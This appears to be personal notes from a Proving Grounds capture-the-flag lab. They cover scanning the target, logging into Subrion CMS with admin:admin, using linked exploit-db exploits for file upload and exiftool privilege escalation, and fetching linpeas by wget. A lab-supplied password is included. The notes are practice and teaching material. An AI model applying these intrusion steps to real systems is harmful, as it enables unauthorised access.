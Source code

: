 ```
sudo nmap -sC -sV 192.168.208.163  -oN nmap-exfiltrated
```

![[PG/Linux/attachments/Pasted image 20250703220521.png]]

Running all ports scan too - nothing

# Website Enum 

Gobuster is being weird. 

Found admin login. 
![[PG/Linux/attachments/Pasted image 20250703221106.png]]
- CMS Subrion CMS v4.2.1
- admin:admin creds worked to login 

I'm in as admin:admin 

Offsec also gave these creds: 
```
coaran / SalveSubsistTopology342
```

# Exploits for CMS

There's an arbitrary file upload vuln
https://www.exploit-db.com/exploits/49876

This exploit worked. I am www-data user 

![[PG/Linux/attachments/Pasted image 20250703222045.png]]

These provided creds also worked for initial access though through ssh 

![[PG/Linux/attachments/Pasted image 20250703222347.png]]

# Enum for priv esc 

sudo -l doesn't work (user not sudoer)

No interesting SUID bins or capabilities 
![[PG/Linux/attachments/Pasted image 20250703222916.png]]

Okie gonna run linpeas 

```
wget http://192.168.45.152:8888/linpeas.sh
```

More creds

![[PG/Linux/attachments/Pasted image 20250703233930.png]]

interesting files in /opt
![[PG/Linux/attachments/Pasted image 20250703234244.png]]

Another .sh file 
![[PG/Linux/attachments/Pasted image 20250703234323.png]]
Probs need to check this out 

![[PG/Linux/attachments/Pasted image 20250703235133.png]]

![[PG/Linux/attachments/Pasted image 20250703235444.png]]
- no full path on exiftool
- attempted to hijack the exiftool binary but it did not work :(

The Priv Esc end up being this related to adding malicious metadata that exiftool executes. 

https://www.exploit-db.com/exploits/50911

[Write-Up](https://gbozyelg.medium.com/proving-grounds-practice-exfiltrated-4c11efba893d)


